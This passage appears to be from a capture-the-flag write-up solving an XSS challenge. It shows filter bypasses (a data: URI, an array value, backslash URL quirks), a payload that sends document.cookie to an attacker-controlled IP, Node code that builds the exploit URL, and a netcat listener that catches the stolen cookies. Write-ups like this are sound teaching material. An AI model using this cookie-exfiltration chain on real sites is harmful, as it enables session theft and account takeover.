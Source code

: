 If we can pass these conditions, the value we provided is either used as the `src` for an `<iframe>` or as an `src` for a `<script>`. I'm not sure how well an `<iframe>` would work since we are stealing cookies and all, but more importantly, this line:

    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);

Seems to always trigger an error, at least when testing locally, since neither `doc` nor `parent` are defined, but are used inside the `lce` function. Bit weird.

So instead, we use the `<script>` option. To summarise, we can basically create a `<script>` tag on the target user's website with any `src` we choose, but it cannot contain `.` or `//`, so a full URL should not really work.

Note: I did not realise during the CTF, but there are at least two other ways to circumvent the condition apart from not using `.` or `//`:
 - supply the `value` as an array (then `value.indexOf` checks for elements inside the array, not substrings in a string), which will then get turned into a string automatically
 - use some backslash quirkiness in URL parsing, e.g. `http:/\1234/` still works in some browsers

During the CTF I found a way to provide a malicious script without using `.` or `//`, however.

The method I used was the [`data://` scheme](https://en.wikipedia.org/wiki/Data_URI_scheme). It allows specifying the full content of a file as well as its `Content-Type` as a URI, e.g. 

    data:text/html,<i>hello</i> <b>world</b>

Is an extremely simple HTML document that can be used as a [link](data:text/html,<i>hello</i> <b>world</b>). This scheme can also be used for binary data by adding `;base64` to the `Content-Type`, then encoding the bytes of the data with the Base64 encoding. Using this technique, we can provide arbitrary JavaScript content.

Our informed guess is that the flag will be in the user's cookies, so we want our script to make a request to a website we control and provide the cookies. We have to do this since the website itself only says `{"msg": "ok"}` and provides no way to see what actually happened when our victim loaded our XSS attack. So, here is our payload:

    window.location='http://<IP we control>:1337/'+document.cookie

We can encode this and wrap it in the JSON structure required by the challenge:

    const payload = `window.location='http://<IP we control>:1337/'+document.cookie`
         ,b64 = Buffer.from(payload).toString('base64')
         ,wrap = `{"iframe":{"type":"script","value":"data:text/javascript;base64,${b64}"}}`
         ,url = `http://13.57.104.34/?${encodeURIComponent(wrap)}`;
    console.log(url);

Then:

    $ node make.js
    http://13.57.104.34/?%7B%22iframe%22%3A%7B%22type%22%3A%22script%22%2C%22value%22%3A%22data%3Atext%2Fjavascript%3Bbase64%2Cd2luZG93LmxvY2F0aW9uPSdodHRwOi8vYXJlbnQteW91LWN1cmlvLnVzOjEzMzcvJytkb2N1bWVudC5jb29raWU%3D%22%7D%7D

Now on the <IP we control>, we listen for packets:

    $ nc -l -p 1337

Finally, we provide the generated URL to the website and sure enough, we get the cookies:
